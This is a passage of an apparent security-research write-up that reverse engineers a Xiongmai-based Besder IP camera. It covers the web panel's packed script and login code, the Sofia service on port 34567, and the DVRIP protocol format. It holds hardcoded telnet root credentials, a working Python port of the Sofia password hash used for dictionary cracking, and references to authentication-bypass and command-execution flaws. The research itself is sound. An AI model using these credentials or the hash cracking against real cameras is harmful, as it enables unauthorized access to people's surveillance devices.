

Also, a file called `m.jsp` is downloaded:



From a security researcher point of view, the main problem with the version of NewActive.exe I have downloaded (Wayback machine snapshot from 2021-03-09) is that all the information exchanged with this IP camera via port 34567 shows as encrypted in Wireshark:



This encrypted information flow includes video stream, camera controls and login credentials. Luckily (again), the snapshot of NewActive.exe on Wayback machine that dates back to 2019 October 15th shows much nicer view to the information exchange:



To figure out what encryption method does the newer version use, it would be required to reverse engineer ActiveX controls (.ocx files, that essentially are library files for ActiveX), namely `web.ocx` and is out of scope for this article.

## Unpacking m.jsp

m.jsp starts with a Javacript [packer function](assets/packer_function.js) that seemingly was used [Dean Edwards JS packer tool from 2004](https://3perf.com/blog/packer/).

Along with this function is included a packed version of the actual code which then is unpacked on the client side. To unpack it, one can output the packer function’s return value to the console of a browser or use [UnPacker tool by Matthewfl](https://matthewfl.com/unPacker.html).

### Method 1: Unpacker by MatthewFL

One method to unpack the file is to use [UnPacker tool by Matthewfl](https://matthewfl.com/unPacker.html)



### Method 2: Browser Console

Create a boilerplate HTML and save it as `index.html`:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>HTML 5 Boilerplate</title>
    <link rel="stylesheet" href="style.css">
  </head>
  <body>
    <script src="m.jsp"></script>
  </body>
</html>
```

Add `console.log(p);` before the return statement of packed function, open index file on a browser and start developer tools (e.g. F12) and open console:



The code unpacks to MooTools v1.11 Javascript framework. Analyzing the framework and the NETSurveillanceWEB application itself is a subject for further research and out of scope for this article.

## Login Page

As mentioned before, a 3.5K line HTML file - NETSurveillanceWEB control panel - with embedded javascript was sent via HTTP.

### Individual Artifacts

Some interesting artifacts found:

- `//wzy 20190904` -  timestamp, revealing a potential time period when this version was created.
- `//ipaddress = “10.10.88.6”` - internal IP address, potentially used to test the webapp.
- `//PswMsg();` - a commented out function call in a login function - a call that does not point to any actual function, at least not in the web application version present in this camera model.

### Login Function

The following function is being used to log into the control panel of IP camera:

```js
function ld() {
    gexiti = 0;
    gExitChannel[0] = 0;
    gExitSubType[0] = true;
    var username = $("username").value;
    var password = $("password").value;
    var ocxlanguage = $("langlist").selectedIndex + 1;


    var r = ocx.Login(ipaddress, hostport, username, password);
    if (r == -11700) {
        location = "err.htm";
    }
    if (r > 0) {
        //PswMsg();
        getcl();
        timeup(2);

        $('password').value = "";
        $('login').style.display = "none";
        $('m').style.top = "0px";
        resize();
        settings['username'] = username;
        settings['ocxlanguage'] = ocxlanguage;

        savesetting();
        getAudio();
        try {
            ocx.SetPsw();
        } catch (e) {
        }
        if (gAutoPlayAll) {
            ocx.PlayAll();
        }
        g_bClose = false;


        //初始化IPC对讲
        SetTalkIpcAll();
    }
}
```

Username and password are saved as global Javascript variables. For login procedure, the portal is programmed to use `ocx` - which stands for **OLE Control Extension** - an ActiveX control file that implements Component Object Model (COM) interfaces required for ActiveX functionality. The `ocx.Login` function takes 4 arguments:

- ipaddress
- hostport
- username
- password

Then returns a response (r). If `r == -11700` , an error screen is returned and now I am suspected of using a pirated version of Xiongmai program:



If response code is greater than 0, then media channel (audio, video) information of a camera is collected and a navigation menu is built, then 2 second timer to draw actual UI and load ActiveX controls, then the password variable is cleared and login screen hidden. Lastly, ActiveX saves password somewhere and prompts to select video stream (main or extra).

## Configuration Script

Defined JavaScript objects specifying CSS layout for username/password fields and login button, followed by hardcoded locations for downloading NewActive.exe - a set of ActiveX methods for accessing and controlling the Besder IP camera.

```js
var InputName={
    "width":133,
    "height":25,
    "marginLeft":0,
    "marginRight":120,
    "marginTop":0,
    "marginBottom":0
}
var SpanLoginName={
    "marginTop":0
}
var SpanPassword={

}
var InputPassword={        
    "width":133,
    "height":25,
    "marginLeft":0,
    "marginRight":120,
    "marginTop":0,
    "marginBottom":0
}
var LoginButton={
    "width":88,
    "height":28,
    "marginLeft":0,
    "marginRight":0,
    "marginTop":0,
    "marginBottom":0
}
var LogoNumbers=1;

var LoardAddress="hxxp[://]xmsecu[.]com:8080/ocx/NewActive[.]exe";//if Null download cab else download exe 
var cabAddress="web.cab#version=1,0,0,1";
var DownLoadAddr="hxxp[://]xmsecu[.]com:8080/ocx/NewActive[.]exe";
var logoString='NetSurveillance';
var copyright=2016;
```

# Port 34567: Reverse Engineering of Dhanalakshmi Service

[Extensive analysis of a cheap Chinese DVR (SECULINK - Security Monitoring) by tothi](https://github.com/tothi/pwn-hisilicon-dvr/tree/42d8325e68fdb075fe27df8a269932f9fa9601a6) reveals that port 34567 is controlled by a binary called Sofia. Key findings of this write-up include:

1. Reverse engineering of Sofia binary:
    * Debug service running on port 9527/TCP - can be used to obtain hardcoded credentials for telnet daemon (port 23/TCP) (root:xc3511 - password cracked from a weak DES hash).
    * Having root access to a live firmware (via telnet) allows for dynamic analysis with gdb.
2. A stack-based buffer overflow vulnerability.

Besder 6024PB-XMA501 has ports 23 and 9527 closed by default and I am yet to find a way to obtain a shell access to this device. In the meantime, let’s take a look at a password hash function.

## Password Hash Function

The following hash function is provided by tothi in the Github repo (comments added by me):

```Python
import hashlib

def sofia_hash(msg):
		"""Reverse engineered hash function of Sofia binary"""
    h = ""
    
    # Get MD5 hash of a password
    m = hashlib.md5()
    m.update(msg)
    msg_md5 = m.digest() # 16 bytes in length
    
    """
    Each iteration adds 1 char to Sofia hash, which has 8 characters in total 
    Traverse MD5 hash sequentially, 2 bytes (chars) at a time
		ord() returns unicode value of a given character
		Two values are added together and remainder after division from 62 is saved
		Thus n is in the range [0-61]
		Which is then converted back into a character within one of the either:
			[0-9]
			[a-z]
			[A-Z]
    """
    for i in range(8):
        n = (ord(msg_md5[2*i]) + ord(msg_md5[2*i+1])) % 0x3e # 0x3e = 62 (hex -> dec)
        if n > 9:
            if n > 35:
                n += 61 # Range: [a-z]
            else:
                n += 55 # Range: [A-Z]
        else:
            n += 0x30 # 0x30 = 48 (hex -> dec); Range: [0-9]
        h += chr(n)
    return h
```

Below is the updated code to work with Python3 (tested with Python 3.14.2):

```python
#!/usr/bin/env python3

import sys
import hashlib

def sofia_hash(msg):
    if isinstance(msg, str):
        msg = msg.encode("utf-8") # Use bytes instead of string

    h = ""
    m = hashlib.md5()
    m.update(msg)
    msg_md5 = m.digest()

    for i in range(8):
			  # Returns integer without conversion
        n = (msg_md5[2 * i] + msg_md5[2 * i + 1]) % 0x3E
        if n > 9:
            if n > 35:
                n += 61
            else:
                n += 55
        else:
            n += 0x30
        h += chr(n)

    return h

def main():
    try:
        msg = sys.argv[1]
        print(f"Msg: {msg}, hash: {sofia_hash(msg)}")
    except Exception as e:
        print(f"No password provided: {e}")

if __name__ == "__main__":
    main()
```

Now, if I try to hash a password I created on camera setup, I get this result:



I configured a password for the camera - `1.QwertY.6` - on ICSee app during initial setup. Turns out, its hash - `CtgKwSh3` - is the same hash that appears on RTSP URI, which I queried with GetStreamUri ONVIF method.

### Brute Forcing Sofia Hash

[A cracker.py script is used to crack the Sofia hash](cracker/xm_hash_cracker.py). It is a script that in its current state only does a simple dictionary attack against the hash. Sofia hash from the IP camera is obtained by exploiting either an aforementioned ONVIF authentication bypass vulnerability, or exploiting another authentication bypass vulnerability in the proprietary Sofia protocol itself.

## CVE-2024-3765 - Unauthorized Incorrect Access Control and Command Execution

[Xiongmai Devices Unauthorized Incorrect Access Control and Command Execution](https://github.com/netsecfish/xiongmai_incorrect_access_control) - vulnerability, newly discovered by netsecfish that allows unauthorized command execution on Sofia binary by first sending a crafted packet containing an undocumented command code f103 (little-endian hex for 1009) to the device. Executing this proof-of-concept on Besder 6024PB-XMA501 results in the following Wireshark capture:



## Dissecting DVRIP/Sofia protocol in Wireshark

Xiongmai uses a proprietary DVRIP/Sofia protocol for both controlling the camera (configuration, information probing, etc.) and receiving audio/video streams. Each packet is comprised of a header and a payload. An approximate structure of a single packet from Xiongmais proprietary protocol is based on [Dahua DVRIP dissector by Thomas Vogt](https://github.com/r4bit999/dvrip-analysis) and my own captures of traffic on port 34567.

* Header - first 20 bytes of DVRIP packet. I distinguished 7 fields in the header, each field had their order reversed to little-endian before converting to decimal value:
  1. Start of DVRIP packet (Byte 1)
  2. Request/Response (Bytes 2-4)
  3. Session ID (Bytes 5-8)
  4. Sequence ID (Bytes 9-12)
  5. Unknown, always observed to be 0 (Bytes 13-14)
  6. Command code (Bytes 15-16)
  7. Payload length (Bytes 17-20)
* Payload:
  1. Camera controls are sent and responses are received as JSON objects with a length defined in payload length field.
  2. Media is being sent in DVRIP packets with payload length of 8192 bytes.

[Xiongmai DVRIP/Sofia dissector for Wireshark (written in Lua)](dissector/dvripWireshark.lua)